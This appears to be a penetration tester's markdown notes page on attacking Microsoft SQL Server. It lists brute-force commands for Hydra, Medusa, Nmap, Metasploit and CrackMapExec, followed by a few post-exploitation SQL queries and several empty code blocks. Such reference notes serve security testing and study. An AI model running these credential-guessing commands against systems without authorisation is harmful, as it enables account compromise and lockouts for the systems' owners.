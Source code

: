 ```yaml
---
id: Exploitation
aliases: []
tags:
  - Networking/Services/MSSQL/Exploitation
---
```


# Exploitation

___

<!-- Brute Force {{{-->
## Brute Force

> [!warning]
>
> This may block user accounts

> [!tip]
>
> Use the NetBIOS name of the machine as domain

<!-- Hydra {{{-->
### Hydra

Brute force with [[Hydra]]

```sh
hydra -L <usernames.txt> –P <passwords.txt> <target> mssql
```

<!-- }}} -->

<!-- Medusa {{{-->
### Medusa

```sh
medusa -h <target> –U <usernames.txt> –P <passwords.txt> –M mssql
```

<!-- }}} -->

<!-- Nmap {{{-->
### Nmap

Brute force with [[Nmap]]

```sh
nmap -p 1433 --script ms-sql-brute --script-args mssql.domain=<DOMAIN>,userdb=customuser.txt,passdb=custompass.txt,ms-sql-brute.brute-windows-accounts <target> -oA mssql-script-ms-sql-brute
```

<!-- }}} -->

<!-- Metasploit {{{-->
### Metasploit

```sh
msf> use auxiliary/scanner/mssql/mssql_login
```

> [!tip]
>
> Set the domain (if any) and use `USE_WINDOWS_ATHENT`

<!-- }}} -->

<!-- CrackMapExec {{{-->
### CrackMapExec

> [!warning]
>
> **Deprecated**

```sh
crackmapexec mssql <target> -d <domain_name> -u usernames.txt -p passwords.txt
```

<!-- }}} -->

___

<!-- }}} -->

# Post-Exploitation

Get MSSQL version

```sql
select @@version;
```

Get user

```sql
select user_name();
```

Get databases

```sql
SELECT name FROM master.dbo.sysdatabases;
```


```sql

```
```sql

```
```sql

```
```sql

```
```sql

```
```sql

```
```sql

```
